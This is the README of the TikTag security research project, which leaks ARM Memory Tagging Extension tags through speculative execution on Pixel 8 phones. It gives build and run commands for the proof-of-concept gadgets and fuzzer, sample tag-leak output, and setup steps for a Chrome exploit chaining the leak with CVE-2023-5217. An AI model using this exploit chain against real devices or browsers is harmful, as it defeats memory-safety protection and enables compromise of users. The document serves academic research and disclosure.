# TikTag

## Introduction

ARM Memory Tagging Extension (MTE) is an ARMv8.5-A feature designed
to mitigate memory corruption attacks. TikTag gadget breaks MTE by
leaking MTE tags through speculative execution. When TikTag gadgets
are speculatively executed, cache state differs depending on
whether the gadgets trigger a tag check fault or not. Therefore, by
observing the cache states, it is possible to leak the tag check
results without raising any exceptions. The gadgets were effective on
both Pixel 8 and Pixel 8 pro, which are the first officially
MTE-enabled hardware. 


## Setup
Build environment: x86_64 GNU/Linux

Set `GCC_TOOLCHAIN` to the path of ARM GCC toolchin, e.g., `gcc-arm-10.3-2021.07-x86_64-aarch64-none-linux-gnu`.

Run `./build.sh` to build the gadgets and the fuzzer:
- `TIMER`=0: Virtual timer (default, no kernel modification required)
- `TIMER`=1: Cycle timer (requires kernel modification, e.g., `kenable-pmu.c`, to enable user-space access to cycle counter)


## Gadget
We referenced [Project Zero's MTE implementation test](https://github.com/googleprojectzero/p0tools/blob/master/MTETest/speculation_window.c) for the environment setup (e.g., code generation, time measurement, cache flush).

```sh
# On the host
$ ./build.sh

# On the Pixel device
$ cd /data/local/tmp
$ ./poc <test_cpu> <iterations> <MTE mode (0:sync, 1:async)> <gadget>
```
### Affected Cores/Gadgets
- `test_cpu`=8 (Cortex-X3)
    - Gadget 1 (`gadget`=1): Exploiting Speculation Shrinkage
    - Gadget 1 variant 1 (`gadget`=11)
    - Gadget 1 variant 2 (`gadget`=12)
- `test_cpu`=4-7 (Cortex-A715)
    - Gadget 2: Exploiting Store-To-Load Forwarding (`gadget`=2)

### Results
Assume the `poc` file is built with `TIMER`=0 (virtual timer). The
result shows for each guess of the tag value (Tag), the hit rate
(HIT) and access latency (LAT) of the affected cache line. The
tag value with the highest hit rate is the correct tag value. 
 

**Testing Gadget 1 on Pixel 8**:
```sh
$ ./poc 8 1000 0 1
Generate G1
Tag     HIT     LAT
0       0.81    1.48
1       0.84    1.33
2       0.84    1.34
3       0.85    1.33
4       0.85    1.35
5       0.85    1.32
6       0.85    1.33
7       0.85    1.34
8       0.99    0.82
9       0.84    1.36
10      0.84    1.37
11      0.83    1.38
12      0.84    1.35
13      0.84    1.35
14      0.83    1.37
15      0.84    1.36
Leaked  Tag: 8
Correct Tag: 8
...
```
**Testing Gadget 2 on Pixel 8**:
```sh
$ ./poc 4 1000 0 2
Generate G2
Tag     HIT     LAT
0       0.00    5.38
1       0.00    5.17
2       0.00    5.19
3       0.00    5.17
4       0.00    5.20
5       0.00    5.17
6       0.00    5.17
7       0.00    5.15
8       0.00    5.30
9       0.00    5.23
10      0.00    5.16
11      0.97    1.03
12      0.00    5.17
13      0.00    5.18
14      0.00    5.16
15      0.00    5.15
Leaked  Tag: 11
Correct Tag: 11
...
```

## Fuzzer

We referenced [Revizor](https://github.com/microsoft/sca-fuzzer) and [armshaker](https://github.com/frestr/armshaker) for the fuzzer implementation.
We leveraged `libopcodes` to mutate and verify the AArch64 assembly gadgets.

```sh
# On the host
$ ./build.sh

# On the Pixel device
$ cd /data/local/tmp/fuzzer
$ ./run-fuzzer.sh
```

## Real-World Exploits

### Chrome V8 JavaScript Engine

We crafted a TikTag-v2 gadget in JavaScript that can leak the tag of
the entire renderer process memory space. Utilizing the leaked tag,
this PoC exploits the recent heap overflow vulnerability
[CVE-2023-5217](https://github.com/UT-Security/cve-2023-5217-poc) in
the libvpx library to bypass the MTE protection and trigger the memory
corruption.

The exploit was effective on Chromium version 125.0.6422.231, with
several modifications to backport CVE-2023-5217 in libvpx and get
renderer object address by `browser-exploit/chromium.patch`. 

Set up the PoC:
```sh
$ pushd browser-exploit
$ npm install express serve-static yargs
$ node server.js
```

On the Pixel device: 
1. Enable MTE on the Chromium browser (see https://googleprojectzero.blogspot.com/2023/11/first-handset-with-mte-on-market.html).
2. Open the browser and visit `https://<host>:8000`.

On the host:
1. Check the debugging log with `./chrome_public_apk logcat -d <Device id>` and `chrome://inspect`.

## Paper
[TikTag: Breaking ARM's Memory Tagging Extension with Speculative Execution (under review)](https://arxiv.org/abs/2406.08719)

## Reference
- [Speculative Oracles on Memory Tagging](https://developer.arm.com/documentation/109544/latest)
